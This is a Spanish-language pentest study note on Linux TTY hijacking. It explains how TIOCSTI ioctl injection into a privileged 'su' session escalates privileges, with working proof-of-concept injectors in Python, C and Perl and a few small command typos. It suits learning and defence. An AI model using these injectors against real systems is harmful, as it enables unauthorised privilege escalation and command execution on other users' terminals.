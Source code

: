-----
- Tags: #teoria #practica #escalada 
------
# TTY 

### Una **TTY** es un dispositivo de caracteres que realiza la entrada y la salida de carácter en carácter. La comunicación entre los dispositivos de termina y los programas que los leen y escriben está controlada por la interfaz tty.

-----
# TTY Hijack 

### Cuando un usuario ejecuta **su $USER** o **su -u $USER** (A menos que se establezca la opción **use_pty**) ese mismo **\$USER** puede aprovecharse de esta terminal del otro usuario con privilegios haciendo uso de la función **TIOCSTI ictl** para inyectar comandos en esta terminal privilegiada y por lo tanto con los permisos correspondientes. 

-----
# Explotación

### Para explotar esta vulnerabilidad, primero debemos identificar al usuario privilegiado ejecutando el comando **su -u**, esto podríamos hacerlo hacinedo uso de herramientas como **pspy** o scripts propios para reconocer comandos ejecutados a nivel de sistema.

### Teniendo en cuenta el comando **w**, el cual nos permite verificar que usuarios estan logueados y que estan realizando, podríamos detectar a un usuario privilegiado. (**watch -n 1 w**)

### Una vez detectado esto, solo haría falta ejecutar un script en **c**, **perl** o **python** para abusar de esta vulnerabilidad. Recomendado leer el [post](https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking) donde se habla de esta vulnerabilidad.

## PoC Python
```python
#!/usr/bin/python3
import os
import fcntl
import termios

def main():
    fd = os.open("/dev/tty", os.O_RDWR)
    if fd < 0:
        print("open")
        return -1

    x = "exit\necho Payload as `whoami`\n"
    for c in x:
        ret = fcntl.ioctl(fd, termios.TIOCSTI, c.encode())
        if ret == -1:
            print("ioctl()")
    
    os.close(fd)
    return 0

if __name__ == "__main__":
    main()
```

## PoC C
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\necho Payload as `whoami`\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

## PoC Perl
```perl
#!/usr/bin/perl

require "sys/ioctl.ph";
open my $tty_fh, '<', '/dev/tty' or die $!;
foreach my $c (split //, "exit\n".'echo Payload as $(whoami)'.$/) {
    ioctl($tty_fh, &TIOCSTI, $c);
}
```